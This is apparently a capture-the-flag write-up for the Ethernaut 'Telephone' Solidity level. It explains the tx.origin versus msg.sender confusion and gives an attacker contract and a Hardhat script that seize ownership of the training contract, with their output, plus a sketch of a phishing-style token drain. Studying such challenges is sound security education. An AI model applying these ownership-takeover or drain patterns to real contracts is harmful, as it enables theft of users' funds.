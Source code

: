 ```yaml
---
title: "Ethernaut #04 Telephone"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Telephone challenge writeup
---
```


## Telephone

### Challenge

Claim ownership of the contract below to complete this level.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Background

This challenge only requires differenciating between `tx.origin` and `msg.sender`. The difference between the two is that the one (`tx.origin`) is who initiated the transaction while the other (`msg.sender`) is who triggered the call. In a simple transaction where all interactions are within the same contract, both `tx.origin` and `msg.sender` are the same address, that of the `EOA` that triggered the transaction. When a contract is interacting with another contract, then for the caller contract, both `tx.origin` and `msg.sender` are the same, while for the callee contract, the `tx.origin` is the `EOA` that initiated the transaction while the `msg.sender` is the caller contract.

### Attack

The attack is very simple, in order change owner we need to trigger the contract with different `msg.sender` and `tx.origin` values.

* Deploy an attacker controlled contract that can call `changeOwner`.
* Trigger the attacker controlled contract to call `changeOwner`

#### TelephoneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '../challenges/Telephone.sol';

contract TelephoneSolve {

  constructor() public {}

  function changeOwner(address _telephoneAddress, address _newOwner) public returns (bool) {
    Telephone telephoneContract = Telephone(_telephoneAddress);
    telephoneContract.changeOwner(_newOwner);
  }
}
```

#### telephone-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    telephoneAddress = "0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c";
    contract = await ethers.getContractAt("Telephone", telephoneAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    TelephoneSolve = await ethers.getContractFactory("TelephoneSolve");
    telephoneSolve = await TelephoneSolve.deploy();
    await telephoneSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // trigger change owner
    tx = await telephoneSolve.connect(account).changeOwner(
        contract.address, 
        account.address, 
    )
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/telephone-solve.js --network rinkeby
Level address   : 0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c
Contract Owner  : 0x0b6F6CE4BCfB70525A31454292017F640C10c768
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.
```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

